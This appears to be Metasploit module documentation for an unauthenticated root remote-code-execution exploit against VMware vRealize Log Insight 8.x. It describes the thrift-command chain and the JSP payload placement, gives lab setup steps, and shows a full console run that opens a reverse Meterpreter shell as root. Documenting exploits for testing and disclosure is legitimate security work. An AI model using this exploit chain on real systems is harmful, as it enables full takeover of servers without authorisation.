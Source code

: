 ## Vulnerable Application

vRealize Log Insight provides intelligent log management for infrastructure and applications
in any environment. This highly scalable log management solution delivers intuitive, actionable
dashboards, sophisticated analytics, and broad third-party extensibility across physical, virtual,
and cloud environments.

VMware vRealize Log Insights versions v8.x contain multiple vulnerabilities, such as
directory traversal, broken access control, deserialization, and information disclosure.
When chained together, these vulnerabilities allow a remote, unauthenticated attacker to
execute arbitrary commands on the underlying operating system as the root user.

This module exploits multiple vulnerabilities for achieving unauthenticated remote code execution
on the VMware vRealize Log Insight version `v8.x`. Module achieves code execution via triggering a
`RemotePakDownloadCommand` command via the exposed thrift service after obtaining the node token by
calling a `GetConfigRequest` thrift command. After the download, it will trigger a `PakUpgradeCommand` for
processing the specially crafted PAK archive, which then will place the JSP payload under a
certain API endpoint (pre-authenticated) location upon extraction for gaining remote code execution.

The original analysis and POC is done by the Horizon3.ai Team.
Check [here](https://www.horizon3.ai/vmware-vrealize-log-insight-vmsa-2023-0001-technical-deep-dive/) for full disclosure writeup.

## Testing
For installing the vulnerable version follow the steps below,
1. To obtain the vulnerable OVA image, first create a customer account at
[VMware](https://customerconnect.vmware.com/account-registration) (trial license is sufficient)
2. Navigate [here](https://customerconnect.vmware.com/downloads/details?downloadGroup=VRLI-8102&productId=1351) and download `Virtual Appliance`
3. Import the OVA image into a virtualization software (VirtualBox is used for this case).
4. Start the `VMware_vCenter_Log_Insight` image and proceed with the initial installation steps through the web interface of the product.

After these steps, the web portal (port 80/443) and Apache thrift service (port 16520) should be accessible.

## Verification Steps

1. msfconsole
2. Do: `use exploit/linux/http/vmware_vrli_rce`
3. Do: `set RHOST [IP]`
4. Do: `check`

## Options

### THRIFT_PORT
This is the Thrift service port for VMware xRealize Log Insight.

### ThriftTimeout
Thrift response and connection timeout duration.

## WaitForUpgradeDuration
This value represents the duration of wait after issuing a PakUpgrade command.

## Scenarios

```
msf6 > use exploit/linux/http/vmware_vrli_rce 
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/vmware_vrli_rce) > set rhosts 192.168.56.107
rhosts => 192.168.56.107
msf6 exploit(linux/http/vmware_vrli_rce) > set lhost 192.168.56.1 
lhost => 192.168.56.1
msf6 exploit(linux/http/vmware_vrli_rce) > set srvhost 192.168.56.1 
srvhost => 192.168.56.1
msf6 exploit(linux/http/vmware_vrli_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] 192.168.56.107:443 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.56.107:443 - Checking if 192.168.56.107:443 can be exploited.
[+] 192.168.56.107:443 - The target appears to be vulnerable. VMware XRLI Version: 8.10
[*] 192.168.56.107:443 - Starting Payload Server
[*] 192.168.56.107:443 - Using URL: http://192.168.56.1:8080/IssIrRP.tar
[*] 192.168.56.107:443 - Fetching thrift config...
[+] 192.168.56.107:443 - Obtained node token: 015dd665-9f84-4efc-9fd2-1ea2e467dbf8
[*] 192.168.56.107:443 - Sending getNodeType...
[*] 192.168.56.107:443 - Sending RemotePakDownloadCommand...
[*] 192.168.56.107:443 - Sending PakUpgradeCommand...
[*] 192.168.56.107:443 - Encoding the payload as JSP
[*] 192.168.56.107:443 - Malicious TAR payload created (117760 bytes)
[+] 192.168.56.107:443 - Payload requested by 192.168.56.107:443, sending...
[+] 192.168.56.107:443 - PakUpgrade request is successful
[*] 192.168.56.107:443 - Waiting 2 second for PakUpgrade...
[*] 192.168.56.107:443 - 192.168.56.107:443 - Triggering JSP payload...
[*] Sending stage (3045380 bytes) to 192.168.56.107
[+] 192.168.56.107:443 - Deleted /tmp/IssIrRP.pak
[+] 192.168.56.107:443 - Deleted /usr/lib/loginsight/application/3rd_party/apache-tomcat-8.5.82/webapps/ROOT/loginsight/api/api-v5-documentation.jsp
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.107:57010) at 2023-09-07 19:48:14 +0200
[*] 192.168.56.107:443 - Server stopped.

meterpreter > getuid 
Server username: root
meterpreter > sysinfo 
Computer     : 192.168.56.107
OS           : VMware Photon OS 3.0 (Linux 4.19.256-1.ph3)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 

```
